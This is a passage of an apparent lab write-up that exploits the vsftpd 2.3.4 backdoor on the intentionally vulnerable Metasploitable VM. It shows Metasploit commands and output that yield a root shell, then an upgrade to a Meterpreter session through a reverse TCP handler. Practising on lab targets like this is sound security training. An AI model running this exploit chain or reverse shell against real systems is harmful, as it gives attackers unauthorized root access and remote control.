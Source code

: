 ```
vsftpd 2.3.2 - Denial of Service                                                  | exploits/linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                            | exploits/unix/remote/17491.rb
---------------------------------------------------------------------------------- ----------------------------------
```

Jackpot! It appears that there is an exploit available for the particular version, 2.3.4, which is installed on this server. I decided at this point to migrate to using metasploit (this is "metasploit"able after all...) and use it to gain access to the system.

```
root@kali:~# msfconsole
...
msf > search vsftpd
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution


msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 172.16.243.143
RHOST => 172.16.243.143
msf exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 172.16.243.143:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.16.243.143:21 - USER: 331 Please specify the password.
[+] 172.16.243.143:21 - Backdoor service has been spawned, handling...
[+] 172.16.243.143:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.16.243.144:33661 -> 172.16.243.143:6200) at 2018-03-25 17:55:42 -0400

id
uid=0(root) gid=0(root)
hostname
metasploitable
```

At this point, I decided to attempt upgrading my session in Metasploit to a meterpreter session, successfully accomplishing this via:

```
^Z
Background session 2? [y/N]  y

msf exploit(unix/ftp/vsftpd_234_backdoor) > sessions -u 2
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [2]

[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.16.243.144:4433
[*] Sending stage (857352 bytes) to 172.16.243.143
[*] Meterpreter session 3 opened (172.16.243.144:4433 -> 172.16.243.143:49559) at 2018-03-25 17:59:32 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
```
